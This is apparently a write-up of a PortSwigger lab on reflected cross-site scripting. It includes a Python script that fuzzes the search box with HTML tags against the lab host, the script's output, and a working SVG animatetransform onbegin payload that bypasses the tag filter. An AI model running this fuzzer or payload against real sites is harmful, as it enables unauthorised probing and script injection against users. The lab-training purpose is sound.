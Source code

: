 # Reflected XSS with some SVG markup allowed

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed), you'll learn: Reflected XSS with some SVG markup allowed! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab has a simple [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that calls the `alert()` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231080001.png)

In here, we can see there is a search box.

Let's try to inject some JavaScript codes:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231080033.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231080042.png)

However, the application blocks us.

**To see which tags are allowed, we can fuzz it via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0a89003e042b9254c06b9f6200a2001a.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger's Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py
[+] Found valid tag: <animatetransform>
[+] Found valid tag: <image>
[+] Found valid tag: <svg>
[+] Found valid tag: <title>
```

**Now, we can go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose which payload work for us.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082247.png)

**Let's try `<svg>` and `<animatetransform>` tag:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082322.png)

**This payload looks good. Let's try it:**
```html
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082346.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082352.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Cross-Site-Scripting/XSS-19/images/Pasted%20image%2020221231082412.png)

It worked!

# What we've learned:

1. Reflected XSS with some SVG markup allowed